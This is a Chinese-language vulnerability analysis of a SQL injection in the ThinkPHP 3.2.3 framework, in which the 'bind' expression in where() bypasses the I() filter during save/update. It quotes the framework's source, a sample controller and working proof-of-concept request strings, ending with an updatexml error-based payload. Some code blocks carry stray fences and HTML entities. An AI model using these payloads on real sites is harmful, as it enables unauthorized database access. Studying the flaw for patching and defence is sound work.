

# Thinkphp 3.2.3 update注入漏洞

## 一、漏洞简介

thinkphp是国内著名的php开发框架，有完善的开发文档，基于MVC架构，其中Thinkphp3.2.3是目前使用最广泛的thinkphp版本，虽然已经停止新功能的开发，但是普及度高于新出的thinkphp5系列，由于框架实现安全数据库过程中在update更新数据的过程中存在SQL语句的拼接，并且当传入数组未过滤时导致出现了SQL注入。

## 二、漏洞影响

<= 3.2.3

## 三、复现过程

这个问题很早之前就注意到了，只是一直没找到更常规的写法去导致注入的产生，在挖掘框架漏洞的标准是在使用官方的标准开发方式的前提下也会产生可以用的漏洞，这样才算框架级漏洞，跟普通的业务代码漏洞是有严格界线的。

thinkphp系列框架过滤表达式注入多半采用I函数去调用think_filter

```
function think_filter(&$value){
    if(preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i',$value)) 
```

有没有相关tips来达到I函数绕过呢？是可以的。

http://document.thinkphp.cn/manual_3_2.html#update_data

一般按照官方的写法，thinkphp提供了数据库链式操作，其中包含连贯操作和curd操作，在进行数据库CURD操作去更新数据的时候：
举例update数据操作。



where制定主键的数值，save方法去更新变量传进来的参数到数据库的指定位置。

```
public function where($where,$parse=null){
        if(!is_null($parse) && is_string($where)) {
            if(!is_array($parse)) {
                $parse = func_get_args();
                array_shift($parse);
            }
            $parse = array_map(array($this->db,'escapeString'),$parse);
            $where =   vsprintf($where,$parse);
        }elseif(is_object($where)){
            $where  =   get_object_vars($where);
        }
        if(is_string($where) && '' != $where){
            $map    =   array();
            $map['_string']   =   $where;
            $where  =   $map;
        }        
        if(isset($this->options['where'])){
            $this->options['where'] =   array_merge($this->options['where'],$where);
        }else{
            $this->options['where'] =   $where;
        }

```
 return $this;
} 
``` 
```

通过where方法获取where()链式中进来的参数值，并对参数进行检查，是否为字符串，tp框架默认是对字符串进行过滤的

```
public function save($data='',$options=array()) {
        if(empty($data)) {
            // 没有传递数据，获取当前数据对象的值
            if(!empty($this->data)) {
                $data           =   $this->data;
                // 重置数据
                $this->data     =   array();
            }else{
                $this->error    =   L('_DATA_TYPE_INVALID_');
                return false;
            }
        }
        // 数据处理
        $data       =   $this->_facade($data);
        if(empty($data)){
            // 没有数据则不执行
            $this->error    =   L('_DATA_TYPE_INVALID_');
            return false;
        }
        // 分析表达式
        $options    =   $this->_parseOptions($options);
        $pk         =   $this->getPk();
        if(!isset($options['where']) ) {
            // 如果存在主键数据 则自动作为更新条件
            if (is_string($pk) && isset($data[$pk])) {
                $where[$pk]     =   $data[$pk];
                unset($data[$pk]);
            } elseif (is_array($pk)) {
                // 增加复合主键支持
                foreach ($pk as $field) {
                    if(isset($data[$field])) {
                        $where[$field]      =   $data[$field];
                    } else {
                           // 如果缺少复合主键数据则不执行
                        $this->error        =   L('_OPERATION_WRONG_');
                        return false;
                    }
                    unset($data[$field]);
                }
            }
            if(!isset($where)){
                // 如果没有任何更新条件则不执行
                $this->error        =   L('_OPERATION_WRONG_');
                return false;
            }else{
                $options['where']   =   $where;
            }
        }

```
 if(is_array($options['where']) &amp;&amp; isset($options['where'][$pk])){
        $pkValue    =   $options['where'][$pk];
    }
    if(false === $this-&gt;_before_update($data,$options)) {
        return false;
    }
    $result     =   $this-&gt;db-&gt;update($data,$options);
    if(false !== $result &amp;&amp; is_numeric($result)) {
        if(isset($pkValue)) $data[$pk]   =  $pkValue;
        $this-&gt;_after_update($data,$options);
    }
    return $result;
} 
``` 
```

再来到save方法，通过前面的数据处理解析服务端数据库中的数据字段信息，字段数据类型，再到_parseOptions表达式分析，获取到表名，数据表别名，记录操作的模型名称，再去调用回调函数进入update

我们这里先直接看框架的where子单元函数，之前网上公开的exp表达式注入就是从这里分析出来的结论：

Thinkphp/Library/Think/Db/Driver.class.php

```
// where子单元分析
    protected function parseWhereItem($key,$val) {
        $whereStr = '';
        if(is_array($val)) {
            if(is_string($val[0])) {
                $exp    =    strtolower($val[0]);
                if(preg_match('/^(eq|neq|gt|egt|lt|elt)$/',$exp)) { // 比较运算
                    $whereStr .= $key.' '.$this->exp[$exp].' '.$this->parseValue($val[1]);
                }elseif(preg_match('/^(notlike|like)$/',$exp)){// 模糊查找
                    if(is_array($val[1])) {
                        $likeLogic  =   isset($val[2])?strtoupper($val[2]):'OR';
                        if(in_array($likeLogic,array('AND','OR','XOR'))){
                            $like       =   array();
                            foreach ($val[1] as $item){
                                $like[] = $key.' '.$this->exp[$exp].' '.$this->parseValue($item);
                            }
                            $whereStr .= '('.implode(' '.$likeLogic.' ',$like).')';                          
                        }
                    }else{
                        $whereStr .= $key.' '.$this->exp[$exp].' '.$this->parseValue($val[1]);
                    }
                }elseif('bind' == $exp ){ // 使用表达式
                    $whereStr .= $key.' = :'.$val[1];
                }elseif('exp' == $exp ){ // 使用表达式
                    $whereStr .= $key.' '.$val[1];
                }elseif(preg_match('/^(notin|not in|in)$/',$exp)){ // IN 运算
                    if(isset($val[2]) && 'exp'==$val[2]) {
                        $whereStr .= $key.' '.$this->exp[$exp].' '.$val[1];
                    }else{
                        if(is_string($val[1])) {
                             $val[1] =  explode(',',$val[1]);
                        }
                        $zone      =   implode(',',$this->parseValue($val[1]));
                        $whereStr .= $key.' '.$this->exp[$exp].' ('.$zone.')';
                    }
                }elseif(preg_match('/^(notbetween|not between|between)$/',$exp)){ // BETWEEN运算
                    $data = is_string($val[1])? explode(',',$val[1]):$val[1];
                    $whereStr .=  $key.' '.$this->exp[$exp].' '.$this->parseValue($data[0]).' AND '.$this->parseValue($data[1]);
                }else{
                    E(L('_EXPRESS_ERROR_').':'.$val[0]);
                }
            }else {
                $count = count($val);
                $rule  = isset($val[$count-1]) ? (is_array($val[$count-1]) ? strtoupper($val[$count-1][0]) : strtoupper($val[$count-1]) ) : '' ; 
                if(in_array($rule,array('AND','OR','XOR'))) {
                    $count  = $count -1;
                }else{
                    $rule   = 'AND';
                }
                for($i=0;$i<$count;$i++) {
                    $data = is_array($val[$i])?$val[$i][1]:$val[$i];
                    if('exp'==strtolower($val[$i][0])) {
                        $whereStr .= $key.' '.$data.' '.$rule.' ';
                    }else{
                        $whereStr .= $this->parseWhereItem($key,$val[$i]).' '.$rule.' ';
                    }
                }
                $whereStr = '( '.substr($whereStr,0,-4).' )';
            }
        }else {
            //对字符串类型字段采用模糊匹配
            $likeFields   =   $this->config['db_like_fields'];
            if($likeFields && preg_match('/^('.$likeFields.')$/i',$key)) {
                $whereStr .= $key.' LIKE '.$this->parseValue('%'.$val.'%');
            }else {
                $whereStr .= $key.' = '.$this->parseValue($val);
            }
        }
        return $whereStr;
    } 
```

其中除了exp能利用外还有一处bind，而bind可以完美避开了think_filter：

```
elseif('bind' == $exp ){ // 使用表达式
                    $whereStr .= $key.' = :'.$val[1];
                }elseif('exp' == $exp ){ // 使用表达式
                    $whereStr .= $key.' '.$val[1]; 
```

这里由于拼接了$val参数的形式造成了注入，但是这里的bind表达式会引入:符号参数绑定的形式去拼接数据，通过白盒对几处CURD操作函数进行分析定位到update函数，insert函数会造成sql注入，于是回到上面的updateh函数。
Thinkphp/Library/Think/Db/Driver.class.php

```
/**
     * 更新记录
     * @access public
     * @param mixed $data 数据
     * @param array $options 表达式
     * @return false | integer
     */
    public function update($data,$options) {
        $this->model  =   $options['model'];
        $this->parseBind(!empty($options['bind'])?$options['bind']:array());
        $table  =   $this->parseTable($options['table']);
        $sql   = 'UPDATE ' . $table . $this->parseSet($data);
        if(strpos($table,',')){// 多表更新支持JOIN操作
            $sql .= $this->parseJoin(!empty($options['join'])?$options['join']:'');
        }
        $sql .= $this->parseWhere(!empty($options['where'])?$options['where']:'');
        if(!strpos($table,',')){
            //  单表更新支持order和lmit
            $sql   .=  $this->parseOrder(!empty($options['order'])?$options['order']:'')
                .$this->parseLimit(!empty($options['limit'])?$options['limit']:'');
        }
        $sql .=   $this->parseComment(!empty($options['comment'])?$options['comment']:'');
        return $this->execute($sql,!empty($options['fetch_sql']) ? true : false);
    } 
```

跟进execute函数：

```
public function execute($str,$fetchSql=false) {
        $this->initConnect(true);
        if ( !$this->_linkID ) return false;
        $this->queryStr = $str;
        if(!empty($this->bind)){
            $that   =   $this;
            $this->queryStr =   strtr($this->queryStr,array_map(function($val) use($that){ return '''.$that->escapeString($val).'''; },$this->bind));
        }
        if($fetchSql){
            return $this->queryStr;
        } 
```

这里有处对$this->queryStr进行字符替换的操作：

```
$this->queryStr =   strtr($this->queryStr,array_map(function($val) use($that){ return '''.$that->escapeString($val).'''; },$this->bind)); 
```

具体是什么，我这里写了一个实例：

常规的跟新数据库用户信息的操作：

Application/Home/Controller/UserController.class.php

```
<?php

namespace HomeController;

use ThinkController;

class UserController extends Controller {

```
public function index(){

    $User = M("member");
    $user['id'] = I('id');
    $data['money'] = I('money');
    $data['user'] = I('user');
    $valu = $User-&gt;where($user)-&gt;save($data);
    var_dump($valu);
} 
``` `}` 
```

根据进来的id更新用户的名字和钱，构造一个简单一个poc

id[]=bind&id[]=1’&money[]=1123&user=liao
当走到execute函数时sql语句为：

```
UPDATE `member` SET `user`=:0 WHERE `id` = :1' 
```

然后$that = $this


然后下面的替换操作是将”:0”替换为外部传进来的字符串，这里就可控了。


替换后：


明显发现之前的`user`参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：


那么我们将id[1]数组的参数变为0呢？

```
id[]=bind&id[]=0%27&money[]=1123&user=liao 
```


果然造成了注入：

### poc

```
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1)) 
```


## 参考链接

> https://www.anquanke.com/post/id/104847